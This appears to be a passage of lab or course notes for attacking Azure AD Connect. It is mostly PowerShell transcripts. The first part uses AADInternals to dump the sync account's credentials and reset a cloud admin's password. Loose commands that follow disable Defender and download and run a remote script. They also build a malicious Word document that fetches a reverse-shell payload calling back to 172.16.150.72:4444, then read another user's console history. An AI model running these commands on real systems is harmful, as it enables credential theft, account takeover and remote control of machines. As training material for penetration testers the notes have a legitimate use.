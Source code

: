 - In the new session we can check if **Azure AD Connect** is installed on that server.
```powershell
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-ADSyncConnector

<snip>

AllParameterDefinitions : {UserName : , Password : }
ConnectivityParameters : {UserName : Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com, Password : }

<snip>

Name : defeng.corp


<snip>

PasswordHashConfiguration : <password-hash-sync-config><enabled>1</enabled><target>{B891884F-051E-4A83-95AF-2544101C9083}</target></password-hash-sync-config>
```

- The above outputs indicates that **Azure AD Connect** is indeed installed on `adcnct` and the method used is PHS. We can use **AADInternals** to extract credentials for the `Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com` that can then be used to reset password for any user in Azure.
```powershell
[172.16.1.21]: PS C:\Users\Administrator\Documents> Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntSyncCredentials
WARNING: Running as ADSync (NT SERVICE\ADSync). You MUST restart PowerShell to restore DEFENG-ADCNCT\Administrator rights.

ADDomain : DEFENG.CORP
ADUser : MSOL_782bef6aa0a9
ADUserPassword : Y#;lq1Wkiz*^o%Zx)WN.d[Bgvr...
AADUser : Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com
AADUserPassword : {_d*...
```

- We can use the credentials of `Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com` to request an access token for the MSGraph.
```powershell
[172.16.1.21]: PS C:\Users\Administrator\Documents> $passwd = ConvertTo-SecureString 'password' -AsPlainText -Force
[172.16.1.21]: PS C:\Users\Administrator\Documents> $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache

[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId

ImmutableId
-----------
E2gG19HA4EaDe0+3LkcS5g==

[172.16.1.21]: PS C:\Users\Administrator\Documents> Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321"
```


[172.16.1.250]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
[172.16.1.250]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://172.16.150.72:82/Out-Word.ps1")
[172.16.1.250]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 4444" -OutputFile student72.doc
[172.16.1.250]: PS C:\Users\Administrator\Documents> exit
[20.52.148.232]: PS C:\Users\student72\Documents> whoami;hostname
[20.52.148.232]: PS C:\Users\student72\Documents> dir C:\Users\
[20.52.148.232]: PS C:\Windows\Tasks> cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt